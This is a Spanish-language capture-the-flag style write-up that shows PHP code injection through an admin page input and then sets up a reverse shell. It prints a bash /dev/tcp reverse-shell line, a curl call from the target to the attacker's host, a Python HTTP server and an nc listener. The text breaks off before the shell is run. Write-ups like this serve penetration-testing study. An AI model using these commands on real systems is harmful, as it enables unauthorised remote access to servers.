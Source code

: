 ### Chequeamos las vulnerabilidades de la pagina admin.php {-}

Ya con el usuario admin y la contraseña encontrada nos podemos logear.

Vemos un input donde podemos poner codigo **HTML**

```bash
Hola
<h1>Hola</h1>
<marquee>Hola</marquee>
```

Funciona... Intentamos ponerle codigo **PHP**

```php
<?php system("whoami"); ?>
```

y tambien funciona...

Aqui decidimos crear una reverse shell para conectarnos al servidor.



## Explotacion de vulnerabilidad & Ganando acceso {-}

### Crear una reverse shell con una pagina html {-}

1. Creamos un index.html

    ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.28/443 0>&1
    ```

1. Compartimos un servicio http por el puerto 80

    ```bash
    python3 -m http.server 80
    ```

1. En la web, le damos un curl a nuestra maquina

    ```php
    <?php system("curl 10.10.14.28"); ?>
    ```


Aqui vemos el codigo fuente del index.html creado. La idea aqui seria interpretar el codigo.

1. Escuchamos por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Ejecutamos la reverse shell 
